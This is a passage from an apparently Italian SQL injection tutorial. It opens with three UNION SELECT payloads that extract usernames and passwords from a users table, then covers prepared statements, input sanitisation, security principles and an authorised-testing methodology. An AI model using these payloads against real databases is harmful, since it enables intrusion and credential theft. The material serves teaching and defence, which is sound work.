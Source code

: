 ### Data Extraction

```sql
# Extract data
-1' UNION SELECT username, password FROM users -- -

# Concatenate multiple columns
-1' UNION SELECT NULL, CONCAT(username,':',password) FROM users -- -

# Extract with conditions
-1' UNION SELECT NULL, password FROM users WHERE username='admin' -- -
```

## Countermeasures e Prevenzione

### Prepared Statements

#### PHP PDO Esempio

```php
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->execute([$username, $password]);
```

### Input Validation

#### Sanitizzazione Input

```php
$username = mysqli_real_escape_string($connection, $_POST['username']);
$password = mysqli_real_escape_string($connection, $_POST['password']);
```

### Principi di Sicurezza

1. **Never Trust Input**: Validare sempre input utente
2. **Least Privilege**: Database user con privilegi minimi
3. **Error Handling**: Non esporre errori SQL all'utente
4. **WAF (Web Application Firewall)**: Filtraggio automatico
5. **Regular Updates**: Aggiornamenti database e applicazioni

## Best Practices Testing

### Ambiente Sicuro

- **Isolamento**: Testing solo in ambiente controllato
- **Permessi**: Mai testare su sistemi senza autorizzazione
- **Documentazione**: Registrare tutte le tecniche utilizzate

### Metodologia

1. **Reconnaissance**: Identificazione tecnologie
2. **Discovery**: Ricerca punti di injection
3. **Exploitation**: Sfruttamento vulnerabilità
4. **Enumeration**: Mappatura database
5. **Extraction**: Recupero dati sensibili
6. **Documentation**: Report dettagliato
